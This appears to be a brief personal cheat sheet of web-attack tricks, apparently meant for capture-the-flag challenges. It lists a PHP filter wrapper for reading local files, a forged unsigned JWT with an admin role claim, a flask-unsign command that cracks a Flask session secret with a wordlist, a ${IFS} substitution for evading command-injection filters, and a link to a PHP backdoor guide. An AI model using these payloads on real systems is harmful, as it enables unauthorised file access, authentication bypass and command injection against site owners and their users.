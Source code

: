 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)
